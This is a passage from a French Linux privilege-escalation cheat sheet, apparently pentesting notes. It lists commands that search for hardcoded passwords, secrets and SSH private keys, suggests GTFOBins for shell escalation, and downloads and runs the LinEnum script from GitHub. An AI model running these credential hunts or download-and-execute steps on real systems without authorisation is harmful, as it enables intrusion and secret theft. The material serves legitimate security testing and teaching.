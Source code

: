 > [!Astuce]
> 
> Croisez les résultats des SUID/SGID/Capabilities avec GTFOBins pour voir s'ils peuvent être abusés pour obtenir un shell ou élever les privilèges.

### 📂 **Recherche de Fichiers et Données Sensibles**

- **Objectif :** Trouver des fichiers de configuration, des scripts, des clés, des mots de passe codés en dur, ou d'autres informations utiles.
    

```
# Rechercher des fichiers de configuration courants
find /etc -name "*.conf" 2>/dev/null
find / -name "*config*" -type f 2>/dev/null

# Rechercher des fichiers modifiés récemment (ex: les 10 derniers jours)
find / -mtime -10 2>/dev/null

# Rechercher des mots-clés sensibles (password, secret, key, api_key, etc.) dans des fichiers
# Attention: commandes potentiellement très longues et gourmandes
grep -RiE '(password|secret|key)' /etc 2>/dev/null
grep -RiE '(password|secret|key)' /var/www 2>/dev/null # Si un serveur web est présent
grep -RiE '(password|secret|key)' /home 2>/dev/null

# Rechercher des clés SSH privées
find / -name "id_rsa" 2>/dev/null
ls -la ~/.ssh/

# Rechercher des scripts (.sh, .py, .pl, etc.)
find / -name "*.sh" 2>/dev/null
find / -name "*.py" 2>/dev/null

# Vérifier les logs (peuvent contenir des erreurs révélatrices ou des infos sensibles)
ls -l /var/log/
```

### 🤖 **Scripts d'Énumération Automatisée**

- **Objectif :** Utiliser des scripts pré-faits pour automatiser une grande partie de l'énumération. Très utiles pour gagner du temps et couvrir un large spectre de vérifications rapidement.
    
- **LinEnum.sh:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum "null")
    
    ```
    # Télécharger et exécuter
    wget [https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) -O /tmp/linenum.sh
    chmod +x /tmp/linenum.sh
    /tmp/linenum.sh -t # Option -t pour inclure les tests plus poussés (thorough)
    ```
    